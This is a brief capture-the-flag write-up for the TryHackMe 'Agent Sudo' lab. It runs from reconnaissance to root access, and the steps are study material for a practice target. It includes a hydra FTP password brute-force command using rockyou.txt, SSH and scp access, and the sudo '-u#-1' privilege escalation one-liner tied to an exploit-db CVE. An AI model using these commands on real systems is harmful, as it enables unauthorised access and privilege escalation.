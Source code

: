 # Agent Sudo

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## Solution

Part 1.

- nmap scan 21, 22, 80

- to get the username I created a small script that changes the User-Agent

Part 2.

- hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<ip>

- we get all the files and have to do stego on them...

Part 3.

- ssh user james with the password that we got

- get the image `scp james@10.10.63.226:Alien_autospy.jpg .`

Part 4.

- we check `sudo -l`, there is bash. but we cannot run it directly

- check sudo and bash versions for some CVE: https://www.exploit-db.com/exploits/47502

Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

- we run `sudo -u#-1 /bin/bash` and get a root shell

- go to root home and cat the flag
